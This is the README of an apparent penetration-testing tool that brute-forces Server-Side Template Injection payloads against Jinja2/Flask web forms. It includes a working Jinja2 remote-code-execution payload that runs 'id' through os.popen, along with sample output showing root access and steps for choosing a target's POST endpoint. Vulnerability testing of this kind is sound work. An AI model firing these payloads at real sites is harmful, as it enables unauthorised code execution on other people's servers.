 # 🍹 Ice-Ice-Tea-Ay!

**Ice-Ice-Tea-Ay** is a command-line tool written in Python to perform payload-based brute-force checks for **Server-Side Template Injection (SSTI)** vulnerabilities on Jinja2/Flask-based web applications.

---

## How it Works?
It works by injecting multiple crafted payloads and analyzing server responses to detect signs of SSTI, number evaluation, or even Remote Code Execution (RCE).

---
## Requirements
- pycurl
- requests

---

## Features

- Checks for **SSTI via numerical evaluation** (e.g., `{{64*64}}`)
- Detects **Remote Code Execution (RCE)** payloads (e.g., `{{ config.__class__.__init__.__globals__['os'].popen('id').read() }}`)
- Multiple payload types: Jinja2, Freemarker, Velocity, Flask, etc.
- Supports custom POST body injection with a placeholder (`&x`)
- Uses `pycurl` for fast and raw HTTP requests

---
## How to use
First you need to find an input in targeted website. Then open Developer Tools, go to Network tab, and try to fill with something then submit it. Check for any endpoint that uses "POST" method inside "Header" tab. Copy the payload from "Payload" tab (on the left side of "Header" tab) and use the endpoint in the script.

This is an example of use:
```bash
> python3 ice-ice-tea-ay.py

Ice-Ice-Tea-Ay!
A Brute-Force Tool to check SSTI vulnerability on Jinja2/Flask-based web servers.

Please put the URL target here: http://localhost:5000/login
Insert a header body (place '&x' inside the body): username=admin&password=&x
1. Number eval check 
2. Remote Code Execution (RCE) check 
3. Check all possible code 
Choose a number: 3
```
If the tools success find the payload, the output will look like this:
```bash
Found One!
Payload: {{config.__class__.__init__.__globals__['os'].popen('id').read()}}
Response:

                <!doctype html>
                <h1 style="font-size:100px;" align="center">uid=0(root) gid=0(root) groups=0(root)     
</h1>
```
---
## Installation

```bash
git clone https://github.com/yourusername/ice-ice-tea-ay.git
cd ice-ice-tea-ay
pip install pycurl requests
```
